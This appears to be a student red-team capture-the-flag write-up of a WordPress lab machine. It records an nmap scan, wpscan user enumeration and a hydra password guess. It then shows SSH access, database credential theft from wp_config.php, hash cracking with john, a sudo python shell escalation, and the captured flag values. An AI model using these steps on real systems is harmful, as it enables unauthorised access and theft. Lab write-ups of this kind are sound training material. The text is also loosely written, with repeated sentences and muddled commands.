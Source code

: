 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

![nmapsvos](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/nmap-sv-os-110.png)

Nmap scan results for each machine reveal the below services and OS details:  

$ nmap -sV -O 192.168.1.110 
-- (The -O detection the operating system, and -sV a detailed study of ports to determine the version of services.)
           
- Target 1  
       Open Ports:
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbis Samba)
    - Port 445 (netbis Samba)

### The following vulnerabilities were identified on each target:
     - Critical and Vulnerabilities

- Target 1
  - Run wpscan enumerate username for on the target1 system. 
  - wpscan ![wpscan-username](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/wpscan-enumerate-usernames.png)

  - Run hydra and found michael's password. His      password is vulnerabilities. His password is incredibly weak same his username. 
  *** He would be a password with a minim of 8 characters, including uppercase, lowercase and special characters.

    ![michael-password](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/michael-password.png)

   -- python  (user steven to run python with sudo.)
   -- Database mysql wp_config.php
   -- Access the mysql database use for the site, password hashes and other confidential information. 

CVE-2013-0235 | vulnerabilities - 
CVE-2013-0235 | vulnerabilities - [CVE-pages](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2013-0235/)


### Exploitation
would be a password with a minimum of 8 characters, including uppercase,  lowercase and special characters.
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
 
- Target 1 

  -----Flag1
    - **Exploit Used**

      * Commands run: 
         - ssh username michael with Password. 
         - Open Port is 22 and run ssh    michael@192.168.1.110
         - cd /var/www/html
         - grep -ER flag1  
         - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
         
      ![flag1](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/grep-found-flag1.png)     

  -----Flag2 
   - **Exploit Used**
     - Commands run: 
          -  cd /var/www/
          - cat flag2.txt
          - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
 
      ![flag2](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/cat-flag2.txt.png)

  -----Flag3
   - **Exploit Used**
     - Use the mysql database
       - Commands Run:
         - still on ssh michael@192.168.1.110 
         - cd /var/www/html/wp_config.php (Found to connect to the mysql database and got the password.)
        - Mysql 
         - looked - show database, use wordpress, show tables, desc wp_posts
         - mysql - select post_title, post_content from wp_posts where post_title like "flag%"; 
         - found flag3 and flag4
         - flag3{afc01ab56b50591e7dccf93122770cd2}
         - found wp_users michael and steven included hash.

      ![flag3](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/flag3-from-wp_posts.png)


      ![hash](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/show-select-wp_users_hash-wordpress.png)  


  -----Flag4
   - **Exploit Used**
      - Commands run: python with sudo.
        - Copied/Pasted hash the wp_hash.txt
        - run john /root/Document/wp_hash.txt
        -Allow me to use python sudo to execute a shell program to access the root steven's account. 
        - cd /root directory and found flag4.txt
        - sudo python -c 'import pty;pty.spawn("bin/bash");' 
        - cat flag4.txt
        flag4{715dea6c055b9fe3337544932f2941ce}

    ![tables-wp_posts](https://github.com/iastoneCO/Final-Project/blob/6755c9e686222fefdf8dce51d59fefa13e2996b7/Images/raven-steven-found-cat-flag4-file.png)  
